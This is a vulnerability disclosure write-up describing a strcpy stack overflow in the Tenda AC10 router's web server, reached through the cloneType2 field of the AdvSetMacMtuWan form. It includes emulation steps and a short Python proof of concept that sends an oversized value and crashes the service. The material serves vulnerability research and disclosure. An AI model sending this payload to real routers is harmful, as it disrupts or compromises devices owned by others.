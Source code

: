 # Tenda-AC10-AdvSetMacMtuWan-cloneType2-StackOverflow

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a  stack overflow vulnerability in the Tenda-AC10 router.

By analyzing the webs file in the bin directory, I found that the function 0x45C380 contains a stack overflow vulnerability.

The stack overflow can be triggered by the cloneType2 key value, which leads to a strcpy stack overflow.

![image-20250110175336927](https://gitee.com/xyqer/pic/raw/master/202501130936686.png)

It can be seen that there is a stack overflow in the above function. To call this part of the code, i in the following function needs to be greater than 0.

![image-20250110175310762](https://gitee.com/xyqer/pic/raw/master/202501130938861.png)

It can be seen whether it is triggered is related to v4, and v4 is wans.flag. However, in the case of qemu simulation, the value read from GetValue("wans.flag", v4); is always 0, although the following is the default setting. **But in the real environment, we can make the return value of GetValue("wans.flag", v4); greater than 0. In order to better carry out the attack, I have made the following processing.**

![image-20250110180323210](https://gitee.com/xyqer/pic/raw/master/202501130939237.png)

Thus we can successfully invoke the code where the vulnerability point is located to achieve stack overflow and control the program execution flow.

## How can we simulate a router

﻿Use the following command to simulate with firmAE.

```bash
sudo chroot ./ ./qemu-mipsel-static ./bin/httpd
```

﻿The content of the **poc.py** file is as follows:

```python
import requests
import pwn
url = "http://192.168.229.128/goform/AdvSetMacMtuWan"
data = {
        "cloneType2": "a"*0x300
}

res = requests.post(url,data=data)
print(res.text)
```

## Attack result

![image-20250110180953903](https://gitee.com/xyqer/pic/raw/master/202501101809939.png)

Through the above figure, the value can be obtained. Successfully, a stack overflow has been achieved and a segmentation fault has been triggered.